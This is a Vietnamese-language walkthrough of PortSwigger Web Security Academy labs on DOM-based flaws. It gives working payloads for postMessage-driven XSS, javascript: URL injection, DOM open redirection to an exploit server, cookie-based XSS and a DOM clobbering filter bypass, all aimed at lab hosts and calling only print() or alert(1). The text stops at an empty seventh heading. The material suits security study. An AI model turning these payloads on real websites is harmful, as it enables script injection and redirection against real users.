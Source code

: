 # 1. DOM XSS using web messages
Nhận thấy trong source code có đoạn mã sau:

![image](https://user-images.githubusercontent.com/103978452/211499636-60830aeb-fd4d-4bcd-bae7-fbaf3f1a149a.png)
Đoạn code trên sẽ nhận web message và inject vào tag có id là 'ads'. Như vậy ta có thể cấu hình XSS sử dụng thẻ `<iframe>`

Vào exploit server, cấu hình đoạn code sau:

```
<iframe style="width: 500px; height: 500px;" src="https://0a1e00080340c863c0b7a49200dd0016.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>', '*')"></iframe>
```

Sau khi đoạn code trên được chạy, sẽ tạo 1 tag iframe. Tag iframe này sau đó sẽ gửi message đến target website, với nội dung `<img src=1 onerror=print()>`. Sau khi được inject vào thẻ có id=ads, lệnh print() sẽ được gọi.

Click "Deliver to victim", kết quả thành công.

# 2. DOM XSS using web messages and a JavaScript URL
Nhận thấy trong source code có đoạn script sau:

![image](https://user-images.githubusercontent.com/103978452/211507542-82ddefb4-5d22-42c8-abc7-f3769e961b4e.png)
Đoạn script trên sẽ bắt sự kiện message được gửi đến, kiểm tra xem trong data(url) nếu có chuỗi 'http:' hoặc 'https:' trong message content thì sẽ thiết lập `location.href=url`

Vào exploit, cấu hình đoạn code sau:
```
<iframe src="https://0a6100cd040bb11ec08677ae0042000b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print(%22https:%22)', '*')"></iframe>
```

Đoạn code trên tạo một iframe, gửi message `javascript:print(%22https:%22)` tới target website. Như vậy khi target website bắt event 'message', lệnh `print('https')` sẽ được gọi

Sau khi click "Deliver to victim", bài lab được giải.

# 3. DOM XSS using web messages and JSON.parse
Trong source code có đoạn script sau:

![image](https://user-images.githubusercontent.com/103978452/211520513-92a0e9b0-3957-4279-be03-e3ee389d4364.png)
Nhận thấy dữ liệu hợp lệ cho "message" event là một JSON object. Nếu ta truyền một object có `type=load-channel` thì thuộc tính `url` của object đó sẽ được gắn cho một thẻ `iframe` mới.

Vào exploit server và cấu hình đoạn HTML sau:

```
<iframe src="https://0a7a00e903689c12c25c61e7002a00c8.web-security-academy.net/" onload="this.contentWindow.postMessage('{&quot;type&quot;:&quot;load-channel&quot;, &quot;url&quot;:&quot;javascript:print()&quot;}', '*')"></iframe>
```
Đoạn code trên sẽ gửi một message với content `{"type": "load-channel", "url": "javascript:print()"}`. Như vậy, khi thẻ `<iframe src="javascript:print()">` được tạo, lệnh print() sẽ được gọi.

Sau khi click "Deliver to victim", kết quả thành công.

# 4. DOM-based open redirection
Trong source code có đoạn thẻ `<a>` với sự kiện onclick như bên dưới:

```
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
Đoạn code trên sẽ redirect user tới giá trị của tham số `url`. Như vậy, ta có thể khiến user redirect đến exploit server bằng cách thiết lập URL sau:

```
https://0ad800f0032df10ac4cb4d1300dd004e.web-security-academy.net/post?postId=5&url=https://exploit-0a470076034cf181c4014c9201e80056.exploit-server.net/exploit
```

Nếu user click "Black to blog" thì website sẽ tự động chuyển hướng đến exploit server.

# 5. DOM-based cookie manipulation
Trong source code của `GET /product` có đoạn script sau:

![image](https://user-images.githubusercontent.com/103978452/211686424-cddbdabd-fafe-48f9-9fe0-b4125f062cb7.png)
Như vậy mỗi khi truy cập đến một product, biến window.location sẽ được đặt làm giá trị của cookie lastViewedProduct. 

Thử thay đổi cookie lastViewedProduct thành `'><script>alert(1)</script>`, ta thấy lệnh `alert(1)` được execute. Như vậy website có lỗ hổng XSS, ta có thể đóng attribute href của thẻ `<a>` và inject thẻ `<script>`.

Vào exploit server, cấu hình đoạn code sau:

```
<script>
document.location='https://0a01001f03664060c1505dad001d00ec.web-security-academy.net/product?productId=3&data=%27%3E%3Cscript%3Eprint()%3C/script%3E'
</script>
```

Đoạn code trên sẽ redirect victim tới trang product chứa lỗ hổng XSS, với payload được chèn vào là thẻ script gọi lệnh `print()`. Như vậy khi victim refresh lại trang hoặc truy cập một product khác, lệnh `print()` sẽ được gọi.

Sau khi click "Deliver exploit to victim", bài lab được giải thành công.

# 6. Exploiting DOM clobbering to enable XSS
Trong nội dung file `loadCommentsWithDomClobbering.js` có đoạn code sau:

![image](https://user-images.githubusercontent.com/103978452/211731470-ff72b23f-525a-4ade-ad8e-d2ed8866ad77.png)
Như vậy website sẽ kiểm tra `window.defaultAvatar` đã được định nghĩa hay chưa, nếu chưa thì sẽ sử dụng URL mặc định, còn nếu đã tồn tại thì sẽ sẽ dùng `window.defaultAvatar.avatar` để làm giá trị cho thuộc tính `src` của thẻ img.

Như vậy, ta có thể tấn công DOM clobbering bằng các bước sau:

1. Submit comment 1 với nội dung:

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="<giá trị muốn gán cho src>">
```
2. Submit tiếp comment 2 với nội dung bất kỳ. Khi javascript load ảnh avatar của comment 2, lúc này `window.defaultAvatar.avatar` sẽ trỏ đến thẻ `<a id=defaultAvatar name=avatar href="<giá trị muốn gán cho src>`. Khi thực hiện gán `'<img src="' + defaultAvatar.avatar + '">'` thì nội dung thuộc tính src sẽ tương ứng với `<giá trị muốn gán cho src>.toString()`

Tuy nhiên, ta không thể thực thi javascript trong thuộc tính src của tag img. Như vậy ta cần tìm cách escape double quotes ("). Hàm `toString()` sẽ tự động URLencode các ký tự đặc biệt nếu giá trị thuộc tính `href` có protocol là http, nếu ta không dùng http thì sẽ có thể escape, nhưng website đã chặn các protocol khác. (Thử với href='x:abc' thì không thành công).

Thử với `href='http://x:"'` thì thấy double quotes không bị URL encode, như vậy website chỉ kiểm tra http: có đứng ở đầu string hay không. Như vậy, ta có thể dễ dàng bypass.

Các bước exploit như sau:

1. Submit một comment 1 với nội dung:
```
<a id=defaultAvatar>
<a id=defaultAvatar name=avatar href='http://x:"onerror="alert(1)"x="'>
```

2. Tiếp tục submit comment 2 với nội dung bất kỳ. Sau khi refresh lại trang, image của comment này sẽ trở thành:

![image](https://user-images.githubusercontent.com/103978452/211732261-e1f38fcb-d0c5-45e3-8fe2-71bbf23e0f4d.png)

Lệnh `alert(1)` được thực thi và bài lab được giải. 

# 7. Clobbering DOM attributes to bypass HTML filters

